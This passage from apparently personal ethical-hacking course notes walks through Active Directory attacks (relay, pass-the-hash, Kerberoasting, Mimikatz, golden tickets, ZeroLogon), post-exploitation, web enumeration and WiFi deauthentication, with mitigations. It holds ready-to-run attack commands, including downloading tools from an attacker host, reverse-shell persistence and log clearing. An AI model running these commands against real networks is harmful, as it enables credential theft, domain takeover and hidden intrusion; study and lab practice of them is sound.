(i) Enabling SMB Signing on all devices. This makes the AD immune to such attacks but decreases the file transfer performance by almost 15-20%.
(ii) Disable NTLM authentication on network. Even though this can protect us from such attacks, if at any time the Kerberos system stops working we would have no other way to login to our machines.
(iii) Limiting domain admins to specific tasks only. They can only log on to only when the need DA over the hosts.
(iv) Local Admin Restriction is another way through which we can prevent a lot of lateral movement even if one of the hosts gets compromised. -
Another way of getting a shell on the target host if we have cracked its password is by using a Metasploit module
exploit/windows/smb/psexec. After setting up the required options we use the exploit to get a meterpreter shell on host. We could also use psexec exploit without Metasploit using the psexec.py script included with Impacket suite. Though the problem with psexec exploits in general is that are easily flagged by Antivirus softwares. So, we could also use wmiexec.py script and smbexec.py to get an interactive shell on target host using formatwmiexec.py/Domain:Password@<Target IP>. -
Another great attack is the IPv6 DNS Takeover. This attack exploits the fact that even though most ADs support both IPv4 and IPv6 addresses they mostly utilize IPv4 addresses for communication whereas the IPv6 addresses remains unconfigured. This gives us an opportunity where we can set up our own malicious DHCPv6 server which assigns IPv6 addresses to hosts on that network.
Now, when hosts are dual stacked i.e. when they have both IPv6 and IPv4 addresses available they prefer using IPv6 over IPv4 for communication. Thus, now all of their DNS requests are redirected to our DNS server which can redirect hosts to our machine. Now, when a host wants to authenticate with the Domain Controller we can intercept this authentication request and steal user credentials.
The stolen credentials can then be used to authenticate to the Domain Controller and enumerate it for any sensitive info about the Active Directory. This is a kind of Man in the Middle Attack.
-
This attack can be performed using a tool can mitm6. This tool is used for setting up a malicious DHCPv6 server with the attacker's host as default DNS server. This spoofs all of the DNS requests on the network to attacker's machine which can then be used to steal user credentials during authentication requests. The command for using mitm6 for spoofing DNS requests is:
sudo mitm6 -d Daddy.xyz.Those stolen credentials can then relayed using ntlmrelayx to logon to the Domain Controller and enumerate it for any sensitive information about the AD. It can used to dump info about domain users, computers, trusts etc. This can be achieved using the command
ntlmrelayx.py -6 -t ldaps://192.168.75.148 -wh fakewpad.Daddy.xyz -l lootme.The IP used in this command is that of the Domain Controller.It can also be used for creating new users having exclusive rights to modify Access Control Lists as well as Delegate Impersonation or Delegate Access attacks in which we can create a new host in the AD and use that to attack the Domain Controller.
-
There are various ways to mitigate the IPv6 DNS Takeover attacks:
(i) If the AD doesn't utilize IPv6 internally the one of the safest way to prevent mitm6 attack is by blocking DHCPv6 traffic and incoming router advertisements in Windows Firewall via the Group Policy. Disabling IPv6 entirely may have unwanted side effects.
(ii) If WPAD(Windows Proxy Auto Discovery) is not in use internally, disable it via Group Policy and disabling the WinHTTPAutoProxySvc service.
(iii) Relaying to LDAP and LDAPS can only be mitigated by enabling LDAP Signing and LDAP channel binding.
(iv) Consider Administrative users to the Protected users group or marking their account sensitive so that it cannot be delegated, which will prevent any impersonation of that user via delegation.
Active Directory - Post Compromise Enumeration
-
This section revolves around digging information about the Active Directory once we gained access to any host on the network. We will utilize various tools to get a better understanding of the hierarchy of users in the network, the group policies, hosts connected to the network, active sessions, administrative rights, information about the domain controller as well as about various other aspects and configuration settings of the Active Directory.
-
The first tool that we are gonna use for system enumeration is PowerView. PowerView is basically a powershell script that has to be executed on the compromised host and it collects data about various components of the AD, identifies the users and hosts connected as well as gathers info about the various group policies set in the AD.
Once we have got shell access on the target, we can transfer this script to the compromised host using various methods. Then we have to spawn a Powershell with a Execution Policy set to bypass setting using command
powershell -ep bypass. Now we execute the PowerView script using. .\PowerView.ps1after which we can execute various commands to enumerate the AD likeGet-NetDomain,Get-DomainPolicy,Get-NetUsers | select samaccountname,Get-NetGPO,Invoke-ShareFinderetc.PowerView is very powerful tool which can be used for a variety of post compromise information gathering and even provides persistence capabilities to the attacker.
-
Another great tool for post compromise enumeration is Bloodhound. BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory or Azure environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. It can be used to easily gain a deeper understanding of privilege relationships in an Active Directory.
Bloodhound works by importing a zip file containing comprehensive data about the AD in JSON format. It then uses that data to visualize complex relationships and attacks paths in the AD with the help of graphs. This helps us in getting a better understanding about the overall architecture and hierarchy of the AD.
The zip file is generated using an ingestor known as SharpHound which is used for data collection and enumeration on the compromised host. SharpHound exists in the format of a powershell script. It can be executed using
. .\SharpHound.ps1command. After that we use commandInvoke-Bloodhound -CollectionMethod All -Domain Daddy.xyz -ZipFileName son1.zipto spit out the zip file. This file can then be simply imported in Bloodhound to get a visual representation of the entire AD as shown below:

Note: When installing Bloodhound usingapt install bloodhoundcommand, an older version of Bloodhound gets installed namely4.3.1. All versions of SharpHound v2.x or above won't work with this version of Bloodhound. So, we have to specifically use SharpHound v1.1.1 or below to generate a supported zip file. -
To summarize this section, we have learnt about various tools which help us get a better understanding about the Active Directory. The mantra to get the best results out of these tools is using them again and again for enumeration as we keep gaining access to new hosts in the network. This helps us in forming a complete picture of the architecture and hierarchy of the Active Directory.
Active Directory - Post Compromise Attacks
-
In this section we explore various attacks that we can use once we have compromised any user or host in the Active Directory. One such attack is Pass the Hash. In this attack, we first dump all the password hashes available on the compromised host. This includes both local SAM hashes as well as cached Domain hashes. We can then crack these hashes using Hashcat to get the plaintext passwords or directly use them for password spraying using crackmapexec or netexec.
There are multiple ways of dumping hashes. We could use the secretsdump.py which is included in Impacket suite using the command
secretsdump.py Daddy/Son1:MYpassword123#@192.168.75.132. This will dump all the local and domain hashes stored on the compromised host. We can then use these hashes for password spraying and authenticating to other hosts which may support these user accounts.We can then execute the password spraying attack using crackmapexec. Since, this program is no longer maintained we will use a newer program called netexec which is based off crackmapexec. We can execute it using command
netexec smb 192.168.75.0/24 -d Daddy.xyz -u "Son1" -p "MYpassword123#".This will let us know about all the hosts that can be authenticated using these compromised credentials. We can also dump the password hashes stored on these compromised hosts using
netexec smb 192.168.75.0/24 -d Daddy.xyz -u "Son1" -p "MYpassword123#" --sam. This is how by using Pass the Hash attacks we can dump hashes and use them gain access to other hosts in the Active Directory. -
Now to get a shell on the compromised host we generally use psexec.py tool. This tool can either be used with a password or a password hash. Now the problem is that only NTLM hashes can be used for password spraying. Local Accounts hashes are generally stored in NTLM format whereas Domain Account ones are stored as NTLMv2 or DCC2. So, we can't use Domain hashes for password spraying. But many times the passwords for local and domain accounts are same. In that case we could use the NTLM hash of local account to authenticate as a Domain Account User.
-
Even though Pass the Hash attacks cannot be entirely prevented, we can at least make it very hard for the attacker to use these attacks by ensuring following practices and policies:
(i) Limit Account Reuse: Avoid reusing local passwords for Domain accounts and disable guest and local administrator accounts. By limiting the users in the local Admin group we can increase our resilience against such attacks.
(ii) Utilize strong passwords: Don't use easily guessable passwords with common words. Use special characters and numbers along with alphabets. Also the longer the password the better.
(iii) Privilege Access Management: Regularly inspect sensitive accounts to detect breaches. Automatically rotate passwords at regular intervals as this limits the time period for Pass the Hash attacks. -
Another great attack is Token Impersonation. Its a wonderful privilege escalation attack which enables us to impersonate any user which has logged onto to that machine after last reboot. Tokens in general are temporary keys that allow us to access a system or a network without having the need to provide credentials every time we access a file. They persist until a reboot. They similar to cookies in our web browser.
Tokens in general can be of two types:
-
Delegate Tokens: Delegate tokens are created for ‘interactive’ logons, such as logging into the machine or connecting to it via Remote Desktop.
-
Impersonate Tokens: Impersonate tokens are for ‘non-interactive’ sessions, such as attaching a network drive or a domain logon script.
We can use the Incognito module in Metasploit for Token Impersonation attacks. First we try to gain access to a compromised host using various exploits like
windows/smb/psexec. Then we load the incognito module usingload incognitocommand. Now, we can list all the valid tokens in scope of the current user usinglist_tokens -u. We can then impersonate any useful token usingimpersonate_token Daddy\\Administrator.
Now, we can execute commands with Domain Administrator privileges. Whenever we want to revert back to our original token, we can do so using
rev2selfcommand. This technique enables us to impersonate powerful user accounts that logged in to our host, even without knowing their credentials. -
-
There are a few mitigation strategies for Token Impersonation attacks.
(i) We can limit user/group token creation permissions even though implementing this can be a little tricky.
(ii) Another great practice would be account tiering. Creating specific accounts for different tasks and restricting the use of Admin accounts.
(iii) The Domain Admins should be restricted to only the Domain Controller itself. This reduces the attack surface for attacking Admin accounts. -
A quite popular attack is Kerberoasting. This attack exploits the general Kerberos functionality in order to obtain a password hash of an Active Directory account that has a Service Principal Name (“SPN”). In such an attack, an authenticated domain user requests a Kerberos ticket for an SPN. The retrieved Kerberos ticket is encrypted with the hash of the service account password affiliated with the SPN.
(An SPN is an attribute that ties a service to a user account within the AD). The adversary then works offline to crack the password hash using brute force techniques.Kerberoasting attacks also exploit an architecture flaw, in that any authenticated domain user can initiate a TGS request for any service on the network. The domain controller that is the recipient of the request typically does not check to see if the user is authorized to access this service. The service itself enforces access rights, which creates a loophole by which an offline attack can occur.

-
It very simple to execute this attack. For this we use a tool called GetUserSPNs.py included with the Impacket Suite. This tool can be used to request for a TGS from the Domain Controller for any SPNs in the Active Directory using command
GetUserSPNs.py Daddy.xyz/son1:MYpassword123# -dc-ip 192.168.75.155 -request.After we have received the TGS which is encrypted using the password hash of SPN's account, we try to crack that hash using tools like Hashcat. This reveals the plaintext password for the SPN service account which can use to impersonate the account owner and inherit access to any systems, assets or networks granted to the compromised account.\
-
Since, these attacks don't involve any malware and are basically exploiting a feature of the Active Directory itself, they are very hard to detect and mitigate. One practice that can be adopted to build resilience against such attacks is using strong and long passwords by default. Also, these passwords should changed regularly. On top of that we must ensure that any of these SPN service accounts are designed with the concept of Least Privileges in mind and not granted any unnecessary rights.
-
Another cool exploit is Group Policy Preferences(GPP) Credentials attack. It is a very common and easy attack that provides user credentials stored in SYSVOL share that can be used to get a shell or escalate privileges. Group Policy Preferences is a collection of Group Policy client-side extensions that allow Administrators to create Domain Policies with embedded credentials.
These credentials are stored in a XML file (
Policies.xmlorGroups.xml) in SYSVOL directory and are encrypted using AES. The AES key used to encrypt these was accidently leaked by Microsoft and so now anyone with the embedded cPassword can decrypt it to get the plaintext password. This attack can then be combined with Kerberoasting for privilege escalation. The encrypted GPP password can be cracked usinggpp-decrypt <hash>.This attack is not very common these days as it was patched by Microsoft in 2014 after MS14-025 patch. But if we find any servers from 2012 or even ADs that haven't updated their GPP credentials after the patch, we could still use this exploit.
-
Mimikatz is one of the best tools to gather credential data from Windows systems. It is a fantastic tool for extracting plaintexts passwords, hash, PIN code and Kerberos tickets from memory on the compromised host. It also can also perform pass-the-hash, pass-the-ticket and even build Golden tickets.
The first thing we have to do after firing up the
mimikatz.exeis runningprivilege::debugcommand. This enables us to debug processes and bypass memory protections like LSASS so that we extract sensitive data from the memory. Now, we can dump all the logon password hashes usingsekurlsa::logonpasswords. This reveals a lot of sensitive information about the machine and all the users that logged in on it since last reboot.We will often find a section called wdigest which was used to store passwords in plaintext format but was disabled after Windows 8. This feature can be enabled through mimikatz and used to capture plaintext passwords for every new login. We can also use
lsadump::samorlsadump::sam /patchto dump password hashes.Another very important command is
lsadump::lsaorlsadump::lsa /patch. The LSA, which includes the Local Security Authority Server Service (LSASS) process, validates users for local and remote sign-ins and enforces local security policies. LSA is provided to prevent reading memory and code injection by nonprotected processes. Dumping LSA credentials can reveal password hashes for a lot of important services like KRBTGT. -
To gain absolute authority over the Active Directory and almost unlimited access over the domain we can utilize another powerful attack called the Golden Ticket attack. This attack exploits weaknesses in the Kerberos identity authentication protocol, which is used to access the AD, allowing an attacker to bypass normal authentication.
Typically, Kerberos authentication uses a Key Distribution Center(KDC) to protect and verify a user’s identity by granting a ticket to the user for access. With this system, the goal is to eliminate the need for multiple credential requests to the user. This ticket is known as Ticket Granting Ticket(TGT) and is encrypted using KRBTGT password hash. The KRBTGT account is responsible for granting tickets to all users and services in the Domain. If we are somehow able to steal this hash we could generate as many tickets as possible and gain absolute control over Domain.
The Golden Ticket Attack requires the following key things to work:
(i) Fully qualified Domain name. Eg:Daddy.xyz
(ii) The Security Identifier of the Domain aka the SUID.
(iii) The KRBTGT password hash.
(iv) Username of the account they are going to access.Once we have acquired all of the above mentioned information we can generate a Golden Ticket for that account using mimikatz. We use the command
kerberos::golden /domain:Daddy.xyz /sid:<SUID of Domain> /krbtgt:<password hash> /user:Administrator /id:500 /ptt. Here, the/pttargument stands for pass-the-ticket which is used to utilize the Golden Ticket for the current session. By omitting/pttand appending/target:<target.kirbi>we can output the ticket to a file which can then be imported whenever required based on its expiration date usingkerberos::ptt <target.kirbi>. Also, to purge the existing Kerberos ticket cache we can use the commandkerberos::purge. -
After importing a ticket in our current session we won't necessarily notice a change in our account status. We would still have the same uid and gid as whoami output. The Golden Ticket would actually be stored inside the cache and will be used for authenticating to the target host. We could use PsExec.exe for spawning a bind shell on the target host using command
PsExec.exe \\BossBaby cmd.exe. Here,BossBabyis the hostname of the target host. If we want to spawn a new shell from within mimikatz we can do so using the commandmisc::cmd. -
The last attack which we will discuss is ZeroLogon attack aka
CVE-2020-1472Unauthenticated Privilege Escalation. This vulnerability allows an unauthenticated attacker with network access to a domain controller, to establish a vulnerable Netlogon session and eventually gain domain administrator privileges. This means that once an attacker has network access to a domain controller, they can brute-force their way onto the domain controller in about 256 attempts — which takes only 2–3 seconds. Any account lockout policy that might be in place is irrelevant because it applies only to user accounts.This attack has the potential to completely destabilize the Domain Controller and destroy the Active Directory and hence must be used with utmost caution. First, we can check whether our target DC is vulnerable to this exploit using a zerologon_tester.py script from SecuraBV by using the command
python3 zerologon_tester.py BossBaby 192.168.75.160.Then if its vulnerable, we could exploit it either using mimkatz or manually. We could use the exploit by dirkjanm. To use the exploit we simply use the command
python3 cve-2020-1472-exploit.py BossBaby 192.168.75.160. After executing the exploit the DC password will be set to null and we then steal the KRBTGT hash and generate Golden Tickets.We can also reverse the changes done by this exploit. First, we use
secretsdump.py -just-dc Daddy/BossBaby\$@192.168.75.160to dump the Administrator's account password hash. We will then use pass-the-hash attack to dump Administrator's accounts secrets usingsecretsdump.py Administrator@192.168.75.160 -hashes <hashvalue>. This will reveal the the Domain Controller's original plaintext password as a hex value. We will the use the restorepassword.py script along with the hexvalue to restore the DC accounts password back to its original state usingpython3 restorepassword.py Daddy/BossBaby@Bossbaby -target-ip 192.168.75.160 -hexpass <hexvalue>. This vulnerability was patched in 2020, so any DC without this patch update is vulnerable to this exploit.
Post Exploitation
-
After we have exploited our target and gained access, we need to escalate our privileges to get Administrator or Root access. Then we can download our tools on the target machine through various methods for further exploitation.
First we need to host a webserver on our machine which we could use to serve our tools to the target machine. We can do so by using either the included apache2 webserver in Kali or creating a Python webserver using
python -m simple.http <port number>. Then we can use this to download tools on the target machine.If the target is a Windows device, we could either use
certutil.exe -urlcache -f http://192.168.75.131:8888/xyz.exe xyz.execommand in the CMD orIWR http://192.168.75.131:8888/xyz.exe -o xyz.execommand in Powershell. On a Linux machine, we could achieve the same usingwget http://192.168.75.131:8888/xyz.exe -O xyz.exe. We could also use the Browser to download the files from the attacker's machine.We could also host a FTP server to transfer files. FTP server can be hosted using
python -m pyftpdlib 21can the files can be accessed on target machine usingftp 192.168.75.131. -
Another important step to consider as soon as we gain access is to maintain Persistence. This ensures that we are able to reconnect back to our target even after the current session is terminated. This can be achieved in a variety of ways, the one which we will discuss is using Metasploit. Here, we will discuss a method to achieve persistence on a Windows target host:
Inside Metasploit, we background our current session using the command
backgroundand then use theexploit/windows/local/persistencemodule. We configure the various options like DELAY, EXE_NAME and SESSION. Then we typeadvancedto list advanced options. Here, we set the EXE::Custom option to point to our custom undetectable reverse shell binary hosted on a web server locally. After we hitexploit, this will install a background service on Windows machine that will try to get us a reverse shell after every X delay time specified. This will enable us to achieve persistence even after the computer is rebooted. Refer to zSecurity video for full tutorial.
.png)
-
Another thing that can be done after exploiting a host is Pivoting. This involves using the target machine to pivot to another network to which we don't have access. The target machine will be used as a intermediary to access that network. Once inside Metasploit, we will try to find, to which networks the target machine has access? We could do this by running
route print,ipconfig,arp -aon target machine if its Windows based.Once we have identified our target network, we will use
run autoroute -s <Network Host IP>in the meterpreter. This will automatically add a route to the target network in our routing table. We could list all such active routes using commandrun autoroute -p. We can then scan and attack the hosts on that new network which was previously inaccessible to us. -
Another important task to consider once we have exploited our target and achieved our goals is Cleaning up. This includes cleaning our footprints on the target machine which includes deleting all our uploaded files, clearing system and event logs, restoring configuration settings and making it look like we were never actually there.
Web Application Enumeration: Revisited
-
We will come across new tools which will help us enumerate web applications better and broaden our attack surface. This includes finding all subdomains, probing which domains are still active, scanning for open ports and services, pulling down and enumerating wayback data and taking website screenshots.
-
First, we will install Golang language which is a lightweight, compiled, procedural language for microservices and API development. As a result it is much faster than its competition like Python and hence is often preferred for scripting. We use pimpmykali to install Go and other tools.
Now, with Go installed, the first tool which we will use is assetfinder which is used for finding subdomains. We will use this tool in our own custom script to format output in desirable format. Another great tool for finding subdomains is Amass, which can also be used for more exhaustive enumeration. We can install these tools using Go command syntax
go install github.com/tomnomnom/httprobe@latest. -
Next tool which we will use is httprobe. It is great tool for finding out active domains. It can be used to check whether a domain is active or not using command
echo cuchd.in | httprobeand for a list of domains usingcat domains.txt | httprobe. The output lists out all the active domains in the list which can the then be formatted as required. We could also set the option to probe specific ports only usinghttprobe -s -p https:8443. -
Another great Go tool for which can be used for screenshotting all the web applications that are tagged alive by httprobe so as to highlight potential areas of interest is using gowitness. It is a great automated website screenshot tool which necessarily requires Google Chrome installed. It was popping out tons of errors when it was installed in the way as specified by the instructor. So, for it to work properly, install it through pimpmykali.
-
Similarly, we could use various other tools for enhancing out output, like by combining outputs of different tools like sublist3r, amass together, looking up their certificates using certspotter, checking if the domains can be taken over using subjack etc. To summarize, there exist a ton of tools out there to enumerate web applications. We have to write our own custom scripts based on these various tools to output rich and optimized results.
-
My own custom modified script is available 👉Here!👈. Other great channels for learning more about Web Enumeration are NahamSec and Red Team Village.
Top 10 Web Application Vulnerabilities
This section involves a brief introduction to the Top 10 OWASP Web Application Vulnerabilities. Its regularly-updated report outlines security concerns for web application security, focusing on the 10 most critical risks. The report is put together by a team of security experts from all over the world. We will use a vulnerable web application called Juice-Shop which is maintained by OWASP to learn and practice about these vulnerabilities.
-
Broken Access Controls
This vulnerability occurs when there is broken access to resources, it means there are some improperly configured missing restrictions on authenticated users which allows them to access unauthorized functionality or data like access to others accounts, confidential documents, etc. For this attack, attackers take the help of session management and try to access data from the unexpired session tokens, which gives them access to many valid IDs and passwords.Defenses:
- Adopt a least privileged approach.
- Delete accounts that are no longer needed or active.
- Audit activity on servers and websites.
-
Cryptographic Failures
Data in transit and at rest — such as passwords, credit card numbers, health records, personal information, and business secrets — require extra protection due to the potential for cryptographic failures (sensitive data exposures). This includes use of outdated or insecure cryptographic algorithms, default crypto keys, weak crypto keys being generated and re-used, crypto keys being exposed in source code repositories and overall poor key management.Defenses:
- Encrypt data while it is in transit and at rest.
- Use the most up-to-date encryption techniques.
- Use Strong adaptive and salted hashing functions when saving passwords.
-
Injection
Injection vulnerabilities can occur when a query or command is used to insert untrusted data into the interpreter via SQL, OS, NoSQL, or LDAP injection. The hostile data injected through this attack vector tricks the interpreter to make the application do something it was not designed for, such as generating unintended commands or accessing data without proper authentication.Defenses:
- Segregate commands from data to avoid exposure to attacks.
- Code SQL queries with parameters rather than structuring the command.
- Eliminate the interpreter altogether through the use of a safe API.
-
Insecure Design
It focuses on risks related to design flaws. If we genuinely want to "move left" as an industry, we need more threat modeling, secure design patterns and principles, and reference architectures. An insecure design cannot be fixed by a perfect implementation as by definition, needed security controls were never created to defend against specific attacks.Defenses:
- Establish and use a safe development lifecycle with AppSec professionals.
- Create and use a library of secure design patterns.
- Use threat modeling for crucial authentication.
-
Security Misconfiguration
This vulnerability refers to the improper implementation of security intended to keep application data safe. These flaws allow hackers to keep track of the configuration of the security and find new possible ways to enter websites. It may include accepting default settings that are insecure, incomplete configurations, misconfigured HTTP headers etc.Defenses:
- Use predefined secure templates during development and deployment.
- Use of segmented application architecture to minimize risks.
- Deploy minimal platforms and remove unused features and services.
-
Vulnerable and Outdated Components
Modern distributed web applications often incorporate open source components such as libraries and frameworks. Any component with a known vulnerability becomes a weak link that can impact the security of the entire application. It is #1 when ranking the OWASP Top 10 by how often a vulnerability was the root cause of an actual data breach.Defenses:
- Continuous scanning of all code components for known vulnerabilities.
- Company’s frameworks should be under configuration management.
- Patch management workflows for identifying and deploying the right patch.
-
Identification and Authentication Failures
When applications incorrectly execute functions related to session management or user authentication, intruders may be able to compromise passwords, security keys, or session tokens and permanently or temporarily assume the identities and permissions of other users. This can give attackers unintended access and can also severely compromise other assets connected to the same network.Defenses:
- Implement multi-factor authentication.
- Enforce strong passwords and avoid using default credentials.
- Carefully monitor failed login attempts.
-
Software and Data Integrity
Code and infrastructure that do not guard against integrity violations, often referred to as software and data integrity failures. A program that uses plugins, libraries, or modules from untrusted sources, repositories, or content delivery networks (CDNs) is an example of this. Unauthorized access, malicious code, or system compromise can all be risks of an unsecured CI/CD pipeline.Defenses:
- Use of digital signatures to avoid data tampering.
- Introduce review procedure for code and configuration modifications.
- Make sure your CI/CD pipeline includes adequate segregation.
-
Insufficient Logging and Monitoring
It is estimated that the time from attack to detection can take up to 200 days, and often longer. In the meantime, attackers can tamper with servers, corrupt databases, and steal confidential information. Insufficient logging and ineffective integration of the security systems allow attackers to pivot to other systems and maintain persistent threats.Defenses:
- Implementing logging and audit software.
- Establishing an effective monitoring system.
- Thinking like an attacker and use a pen testing approach.
-
Server-Side Request Forgery
Server-side request forgery(also termed as SSRF) is a web security flaw that allows an attacker to force a server-side application to send HTTP requests to any domain the attacker chooses. When a web application fetches a remote resource without validating the user-supplied URL, an SSRF fault occurs.Defenses:
- Implement input validation and use Regular Expressions (RegEx).
- Only accept the intended IP address format (IPv4 or IPv6).
- Validate incoming Domain Names.
Wireless Penetration Testing
This includes a very brief introduction to WiFi hacking and penetration testing. The Learn Ethical Hacking From Scratch course by zSecurity teaches much better and detailed WiFi hacking techniques.
- Here we will hack the most popular WPA PSK2 security protocol. We start by killing any background processes that may interfere with our Wifi card using
airmon-ng check kill. Now, by default our wifi card is in station mode so that we connect to various different Access Points(AP). We will change that and place it in monitor mode, so to discover all other devices in the vicinity and get various details like AP's BSSID, network strength, devices connected etc. We achieve this usingairmon-ng start wlan0.
 - Now after placing our wifi card into monitor mode and it will change from
wlan0towlan0mon. This will indicates a successfull change. Now, we start the discovery process. To list all the various AP's in range we use the commandairodump-ng wlan0mon. This will show all the wireless AP's in range and show various details about them.
 - Next step is selecting the network we want to attack. We will note down its BSSID and specify this network during discovery. We will use
airodump-ng -c 6 --bssid 50:C7:8A:44:2A:73 -w ./Desktop/capture wlan0mon. This will monitor the network specified and data being transmitted. The captured data will stored at the location specified using-wparameter.
 - Now we will use a deauthentication attack to forcefully disconnect the connected devices to the AP. When they reconnect, we will capture the EAPOL handshake packet which contains the AP's pre-shared security key. We can do this using command
aireplay-ng -0 1 -a <AP BSSID> <Device BSSID> wlan0mon. This will send deauth packets to both the AP and connected device. If we don't specify the<Device BSSID>then it will broadcast a general deauth packet to all devices but this is much slower.
